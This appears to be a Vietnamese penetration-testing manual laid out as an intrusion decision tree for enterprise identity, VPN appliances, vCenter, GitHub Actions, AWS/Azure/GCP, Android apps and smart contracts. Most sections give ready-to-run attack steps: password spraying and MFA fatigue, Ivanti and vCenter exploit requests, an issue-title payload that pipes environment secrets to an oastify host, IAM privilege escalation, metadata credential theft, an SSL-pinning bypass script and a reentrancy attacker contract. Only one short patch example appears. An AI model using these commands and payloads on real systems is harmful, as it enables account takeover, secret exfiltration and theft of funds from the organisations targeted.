

# 04. BẢO MẬT HẠ TẦNG DOANH NGHIỆP, CI/CD & ĐÁM MÂY CHI TIẾT (INFRA MANUAL)

Tài liệu này cung cấp hướng dẫn kỹ thuật chi tiết cho từng nút quyết định (node), danh sách lệnh thực thi cụ thể, mã nguồn khai thác và kịch bản leo thang quyền trên hạ tầng doanh nghiệp, đám mây, ứng dụng di động và Blockchain.

---

## 1. CÂY QUYẾT ĐỊNH XÂM NHẬP HẠ TẦNG & DANH TÍNH DOANH NGHIỆP



### 📌 Node 1.1: Tấn công rải mật khẩu Okta / Entra ID (Password Spraying)
*   **Mô tả:** Thử nghiệm một mật khẩu thông dụng (như `Summer2026!`) trên hàng loạt tài khoản người dùng khác nhau để tránh bị khóa tài khoản do vượt quá số lần thử sai trên một tài khoản.
*   **Quy trình & Lệnh thực thi:**
    1.  Thu thập danh sách email nhân viên từ LinkedIn/OSINT. Lưu vào file `emails.txt`.
    2.  Sử dụng công cụ `o365spray` để kiểm tra tài khoản Microsoft 365:
        ```bash
        o365spray --spray -U emails.txt -p "Summer2026!" --count 1 --delay 15
        ```
*   **Dấu hiệu phản hồi:**
    *   *MFA Required (Yêu cầu MFA):* ➔ [TÀI KHOẢN ĐÚNG MẬT KHẨU]. Ghi nhận để thực hiện bước tiếp theo.
    *   *AADSTS50053 (Account Locked):* Tài khoản bị khóa tạm thời. Giãn cách thời gian chờ tối thiểu 30 phút.

---

### 📌 Node 1.2: Tấn công quấy rối xác thực (MFA Push Fatigue)
*   **Mô tả:** Gửi liên tiếp các yêu cầu xác thực đa yếu tố dạng thông báo đẩy (Push Notification) đến điện thoại của nạn nhân vào khung giờ muộn, ép họ nhấn nút đồng ý để tắt tiếng chuông báo.
*   **Quy trình:**
    1.  Sử dụng credentials đúng thu được từ Node 1.1.
    2.  Chạy script gửi liên tiếp 10-20 yêu cầu đăng nhập qua API của Okta/Azure AD.
    3.  Chờ đợi nạn nhân nhấn phê duyệt. Nếu đăng nhập thành công ➔ Chiếm đoạt phiên làm việc.

---

### 📌 Node 1.3: Đánh giá an toàn thiết bị SSL VPN
*   **Mô tả:** Thiết bị VPN (Ivanti, Fortinet, Palo Alto) thường chứa các lỗi nghiêm trọng cho phép đọc file hệ thống hoặc thực thi lệnh từ xa.
*   **Kịch bản kiểm thử (Ivanti Connect Secure CVE-2023-46805 & CVE-2024-21887):**
    ```bash
    # 1. Kiểm tra lỗ hổng bypass xác thực (CVE-2023-46805)
    curl -k "https://target.com/api/v1/configuration/users/user-roles"
    
    # 2. Khai thác Command Injection (CVE-2024-21887) thông qua endpoint bị bypass
    curl -k -X POST "https://target.com/api/v1/license/keys-status/%3Bcurl%20http%3A%2F%2Fyour-collaborator.oastify.com%3B"
    ```
*   **Quyết định:** Nếu nhận được callback DNS/HTTP từ thiết bị VPN ➔ Xác nhận RCE ➔ Tiến hành quét dải mạng nội bộ (Pivot).

---

### 📌 Node 1.4: Tấn công VMware vCenter
*   **Mô tả:** vCenter là trung tâm quản lý máy ảo của doanh nghiệp. Các lỗi RCE nổi tiếng cho phép chiếm quyền root trên hệ thống ảo hóa này.
*   **Kịch bản kiểm thử (CVE-2021-21972 - File Upload RCE):**
    ```bash
    # Gửi request upload file webshell vào thư mục web của vCenter
    curl -k -F "file=@shell.war" "https://target.com/ui/vropsplugin/api/admin/command/testconnection"
    ```
*   **Khai thác sau khi chiếm quyền:** Đọc file cơ sở dữ liệu SAM và các cấu hình kết nối để lấy mật khẩu đăng nhập máy chủ ESXi.

---

## 2. BẢO MẬT CHUỖI CUNG ỨNG PHẦN MỀM (CI/CD)

### 📌 Node 2.1: Quét tĩnh file cấu hình GitHub Actions
*   **Mô tả:** Sử dụng công cụ `sisakulint` để phát hiện nhanh cấu hình sai trong file workflow YAML.
*   **Lệnh thực thi:**
    ```bash
    sisakulint scan .github/workflows/ -o /tmp/sast_results.json
    ```

---

### 📌 Node 2.2: Khai thác GitHub Actions Code Injection (RCE)
*   **Mô tả:** Lỗi xảy ra khi tệp workflow chứa biến đầu vào chèn trực tiếp bằng cú pháp `${{ github.event.issue.title }}` vào khối lệnh shell `run:`. Attacker có thể chèn các ký tự ngắt lệnh để thực thi mã độc.
*   **Quy trình khai thác:**
    1.  Tạo một Issue mới trên repository của mục tiêu.
    2.  Đặt tiêu đề Issue chứa payload: `a"; curl https://xxx.oastify.com/$(env | base64) #`
    3.  Khi workflow tự động chạy để xử lý Issue, câu lệnh shell sẽ thực thi và gửi toàn bộ các Secret Keys lưu trong biến môi trường về server của bạn.
*   **Vá lỗi (Workflow YAML):** Luôn chuyển biến đầu vào thành biến môi trường trước khi sử dụng:
    ```yaml
    #   VÁ LỖI AN TOÀN
    env:
      ISSUE_TITLE: ${{ github.event.issue.title }}
    run: |
      echo "$ISSUE_TITLE"
    ```

---

### 📌 Node 2.3: Untrusted Checkout & Cache Poisoning
*   **Mô tả:** Việc chạy `actions/checkout` với PR từ fork của bên ngoài trên các sự kiện như `pull_request_target` cho phép mã độc trong PR chạy với quyền ghi mã nguồn của repository chính.
*   **Kịch bản khai thác:** Sửa file `package.json` hoặc file test trong PR để thực thi lệnh đánh cắp secret key khi quy trình test tự động kích hoạt.

---

## 3. LEO THANG ĐẶC QUYỀN ĐÁM MÂY (CLOUD IAM ESCALATION)

### 📌 Node 3.1: Leo thang đặc quyền AWS (Put User Policy & CreateAccessKey)
*   **Mô tả:** Nếu tài khoản AWS thu được có quyền `iam:PutUserPolicy` hoặc `iam:CreateAccessKey`, bạn có thể tự cấp thêm quyền admin cho chính mình.
*   **Lệnh thực thi (PutUserPolicy):**
    ```bash
    aws iam put-user-policy --user-name my-user --policy-name admin-policy --policy-document '{
      "Version": "2012-10-17",
      "Statement": [{"Effect": "Allow", "Action": "*", "Resource": "*"}]
    }'
    ```

---

### 📌 Node 3.2: Leo thang đặc quyền AWS (PassRole + RunInstances)
*   **Mô tả:** Nếu có quyền khởi tạo máy ảo EC2 (`ec2:RunInstances`) và truyền vai trò (`iam:PassRole`), bạn có thể tạo máy ảo mới đính kèm quyền Administrator của một Role có sẵn trong hệ thống.
*   **Lệnh thực thi:**
    ```bash
    aws ec2 run-instances --image-id ami-0c55b159cbfafe1f0 --instance-type t2.micro --iam-instance-profile Name=admin-role-profile --key-name my-ssh-key
    ```
*   **Đọc Credentials từ IMDS (từ trong máy ảo EC2 mới):**
    ```bash
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role
    ```

---

### 📌 Node 3.3: AWS Cognito Identity Pool Unauthenticated-Role Attack
*   **Mô tả:** AWS Cognito Identity Pool nếu cho phép cấu hình "unauthenticated identities" sẽ cấp quyền IAM tạm thời cho người dùng vô danh truy cập tài nguyên AWS.
*   **Quy trình khai thác:**
    1.  Tìm kiếm `IdentityPoolId` trong các file JS tĩnh (Ví dụ: `us-east-1:abcd1234-5678-90ab-cdef-1234567890ab`).
    2.  Lấy `IdentityId` vô danh:
        ```bash
        aws cognito-identity get-id --identity-pool-id "us-east-1:abcd1234-5678-90ab-cdef-1234567890ab" --region us-east-1 --no-sign-request
        ```
    3.  Lấy Access Keys:
        ```bash
        aws cognito-identity get-credentials-for-identity --identity-id "us-east-1:returned-uuid" --region us-east-1 --no-sign-request
        ```
    4.  Cấu hình keys và quét quyền bằng Pacu hoặc `aws cli`.

---

### 📌 Node 3.4: Azure Managed Identity Abuse (Bóc lột danh tính Azure)
*   **Mô tả:** Máy ảo Azure chạy ứng dụng nếu được bật Managed Identity, hacker có thể thông qua SSRF hoặc RCE truy cập endpoint metadata nội bộ để lấy token quản trị Azure.
*   **Lệnh thực thi:**
    ```bash
    curl -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
    ```

---

### 📌 Node 3.5: GCP Service Account JSON Abuse
*   **Mô tả:** Sử dụng file khóa JSON của GCP Service Account để đăng nhập và thực hiện leo thang đặc quyền.
*   **Lệnh thực thi:**
    ```bash
    # Đăng nhập bằng file key
    gcloud auth activate-service-account --key-file=sa-secret.json
    
    # Liệt kê các quyền hạn trên dự án
    gcloud projects get-iam-policy my-gcp-project
    ```

---

## 4. KIỂM THỬ BẢO MẬT DI ĐỘNG & WEB3 SMART CONTRACTS

### 📌 Node 4.1: Kiểm thử ứng dụng di động Android APK
*   **Quy trình phân tích tĩnh:**
    1.  Sử dụng `jadx-gui app.apk` để dịch ngược mã nguồn Java.
    2.  Quét file `AndroidManifest.xml` tìm các Activity, Service, hoặc Receiver có cấu hình `android:exported="true"` (dễ bị tấn công khởi chạy trái phép).
*   **Quy trình phân tích động (Bypass SSL Pinning):**
    1.  Cài đặt `frida-server` trên thiết bị ảo Android.
    2.  Chạy đoạn script Frida sau để bỏ qua cơ chế SSL Pinning của ứng dụng, cho phép bắt request qua Burp Suite:
        ```javascript
        // bypass_ssl_pinning.js
        Java.perform(function() {
            var array_list = Java.use("java.util.ArrayList");
            var TrustManagerImpl = Java.use('com.android.org.conscrypt.TrustManagerImpl');
            TrustManagerImpl.checkTrustedRecursive.implementation = function(certs, host, clientAuth, untrustedChain, trustAnchorChain, index) {
                return array_list.$new();
            };
        });
        ```
    3.  Thực thi Frida:
        ```bash
        frida -U -f com.example.targetapp -l bypass_ssl_pinning.js --no-pause
        ```

---

### 📌 Node 4.2: Đánh giá lỗi Reentrancy trên Smart Contract (Solidity)
*   **Mô tả:** Lỗi xảy ra khi hợp đồng thông minh thực hiện chuyển tiền (Ether) cho một địa chỉ khác trước khi cập nhật số dư của tài khoản đó. Attacker có thể viết hợp đồng độc hại để gọi lại hàm rút tiền liên tục trước khi số dư bị trừ về 0.
*   **Mã nguồn khai thác (Attacker.sol):**
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    interface IVulnerableBank {
        function deposit() external payable;
        function withdraw() external;
    }

    contract Attacker {
        IVulnerableBank public bank;

        constructor(address _bankAddress) {
            bank = IVulnerableBank(_bankAddress);
        }

        // Nhận Ether và gọi lại hàm rút tiền của Ngân hàng (Reentrancy)
        receive() external payable {
            if (address(bank).balance >= 1 ether) {
                bank.withdraw();
            }
        }

        function attack() external payable {
            require(msg.value >= 1 ether, "Need 1 ether to attack");
            bank.deposit{value: 1 ether}();
            bank.withdraw();
        }
    }
    ```
*   **Lệnh thực thi kiểm thử với Foundry:**
    ```bash
    # Chạy kiểm thử cục bộ hiển thị chi tiết log và dấu vết thực thi
    forge test --match-test testExploitReentrancy -vvvv
    ```
